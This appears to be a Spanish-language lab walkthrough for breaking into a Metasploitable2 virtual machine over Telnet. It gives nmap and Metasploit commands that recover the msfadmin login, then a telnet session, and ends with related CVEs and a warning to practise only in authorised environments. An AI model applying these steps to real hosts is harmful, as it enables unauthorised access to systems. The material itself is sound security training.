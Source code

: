 # Vulneración mediante explotación del servicio Telnet

No podemos iniciar a trabajar sin saber que tenemos alcance por eso realizaremos una analisis de sus puertos y de los servicios que estan disponibles.
Para esto nos apoyaremos de la herramienta `nmap` con el siguiente comando:

```bash
nmap -sV 192.168.222.131 
```

![nmap-scan](https://github.com/user-attachments/assets/59ee4216-3d88-4314-afa5-7a80d7068fd5)

---

Luego utilizamos la herramienta **Metasploit**, ingresando el siguiente comando para su ejecución:

```bash
msfconsole
```

En ella, buscaremos algún script que sea compatible con el servicio disponible y con nuestro objetivo: ingresar a la máquina.

![metasploit-search](https://github.com/user-attachments/assets/b1406250-e7d4-4116-b29a-573e1a07b68a)

Seleccionamos el módulo deseado con el comando:

```bash
use 3
```

![use-module](https://github.com/user-attachments/assets/36c2102b-0255-44ca-a1a7-b5d4929bb07a)

Visualizamos las opciones que tiene este script ya preparado, con el comando:

```bash
show options
```

![show-options](https://github.com/user-attachments/assets/33dd83f4-d1f3-4b29-a0b3-6b6d49f4af0c)

Como se puede identificar, nos falta completar el campo de `RHOST`, que sería la IP de nuestro objetivo.

En este caso, la IP es `192.168.222.131`, y se ingresa con el comando:

```bash
set RHOST 192.168.222.131
```

![set-rhost](https://github.com/user-attachments/assets/d02e1177-0d88-49c9-8774-37dee759692d)

Llegado a este punto, se ejecuta con el comando `run` o `exploit`:

```bash
run
```

![run-exploit](https://github.com/user-attachments/assets/cf8d7462-b4e1-4d3e-804f-cf8bf549b948)

Como se puede visualizar, gracias a este script se pudo obtener las credenciales de acceso a la máquina:

- **Usuario:** `msfadmin`  
- **Contraseña:** `msfadmin`

---

## Conexión mediante Telnet

Procedemos a realizar la conexión Telnet colocando la IP y el puerto del objetivo, mediante el siguiente comando:

```bash
telnet 192.168.222.131 23
```

Con esto se consagra la conexión con la máquina:

![telnet-access](https://github.com/user-attachments/assets/8a686e25-1fe0-48f5-8eec-09e79f8b7ce0)

---

Si bien es cierto, con la máquina objetivo en cuestión ya se muestran sus credenciales solo realizando una conexión mediante el servicio de Telnet, esta vulnerabilidad refleja malas prácticas de seguridad.

---

## Vulnerabilidades relacionadas

- **CVE-1999-0506** *(Telnet Daemon Authentication Bypass)*:  
  Esta es una CVE muy antigua y general para los demonios Telnet que podrían tener omisiones de autenticación o mecanismos de autenticación débiles. Aunque no es específica de Metasploitable2, el espíritu de esta vulnerabilidad (acceso fácil) es lo que Metasploitable2 pretende demostrar.

- **CVE-2001-0504** *(Telnet Daemon Remote Buffer Overflow)*:  
  Se refiere a desbordamientos de búfer en los demonios Telnet, que podrían conducir a la ejecución remota de código. Metasploitable2 está diseñado para tener este tipo de vulnerabilidades.

---

> ⚠️ **Importante:** Este laboratorio debe ser realizado únicamente en entornos controlados, como máquinas virtuales de prueba. Nunca ejecutes este tipo de acciones en sistemas sin autorización.
